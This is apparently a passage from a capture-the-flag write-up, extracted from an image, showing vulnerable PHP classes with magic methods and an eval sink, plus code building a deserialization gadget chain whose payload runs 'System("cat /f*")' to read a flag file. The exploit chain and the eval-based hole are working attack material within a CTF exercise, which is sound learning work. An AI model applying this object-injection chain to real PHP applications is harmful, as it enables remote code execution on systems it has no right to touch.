 ```
     
    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }

}

class TianXiWei{
    public $ext; //5 Ilovetxw
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x);
    }
}

class Ilovetxw{
    public $huang; //4 four
    public $su; //2 NISA

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0];
    }
     
    public function __toString(){
        $bb = $this->su;
        return $bb();
    }

}

class four{
    public $a="TXW4EVER"; //3 Ilovetxw
    private $fun='sixsixsix'; //fun = "sixsixsix

    public function __set($name, $value)
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }

}

$n = new NISA();
$n->txw4ever = 'System("cat /f*");';
$n->fun = "666";
$i = new Ilovetxw();
$i->su = $n;
$f = new four();
$f->a = $i;
$i = new Ilovetxw();
$i->huang = $f;
$t = new TianXiWei();
$t->ext = $i;
```